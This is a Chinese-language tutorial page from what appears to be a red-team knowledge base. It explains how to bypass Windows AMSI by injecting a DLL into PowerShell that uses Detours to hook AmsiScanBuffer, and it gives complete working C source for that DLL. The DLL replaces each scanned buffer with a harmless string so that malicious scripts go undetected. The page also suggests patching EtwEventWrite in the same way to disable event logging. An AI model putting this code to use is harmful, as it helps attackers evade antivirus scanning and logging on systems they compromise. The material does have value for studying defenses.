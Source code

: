 # 基于API Hook和DLL注入的AMSI绕过

## 简介

前面我们有详细的介绍过AMSI的原理和基于内存补丁的绕过方法，这次我们介绍一种略微复杂的方法，同时这种方法也可以应用于各种场景，前面我们有介绍过通过微软开源库[Detours](../persistence/detous-inline-hook.md)的inLineHook和[进程注入](../code-and-dll-process-injection/createremotethread.md)的dll注入，这次我们把这两种技术做一个组合，来实现amsi的绕过，同样的思路也可以对 EtwEventWrite进行修补，使其丧失记录日志能力。

## 流程

1. 编写一个hook AmsiScanBuffer的dll
2. 使用[dll注入](../code-and-dll-process-injection/createremotethread.md#42-dll-zhu-ru)进powershell进程
3. 完成绕过

## 代码

dll注入的代码延用[CreateRemoteThrea](../code-and-dll-process-injection/createremotethread.md)的代码。

```text
#include <Windows.h>
#include <stdio.h>
#include <amsi.h>
#include "include/detours.h"
#pragma comment(lib, "amsi.lib")
#pragma comment(lib,"lib.X64/detours.lib")

#define SafeString "SafeString"

static HRESULT(WINAPI* _AmsiScanBuffer)(
    HAMSICONTEXT amsiContext,
    PVOID        buffer,
    ULONG        length,
    LPCWSTR      contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result
    ) = AmsiScanBuffer;

HRESULT WINAPI AmsiScanBuffer_(
    HAMSICONTEXT amsiContext,
    PVOID        buffer,
    ULONG        length,
    LPCWSTR      contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result
) 
{
    return _AmsiScanBuffer(amsiContext, (BYTE*)SafeString, length, contentName, amsiSession, result);
}


BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    if (DetourIsHelperProcess()) {
        return TRUE;
    }
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourAttach(&(PVOID&)_AmsiScanBuffer, AmsiScanBuffer_);
        DetourTransactionCommit();
        printf("hook ok\n");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourDetach(&(PVOID&)_AmsiScanBuffer, AmsiScanBuffer_);
        DetourTransactionCommit();
        break;
    }
    return TRUE;

}
```

![](../.gitbook/assets/image%20%28114%29.png)

## LINKS

{% embed url="https://x64sec.sh/understanding-and-bypassing-amsi/" %}



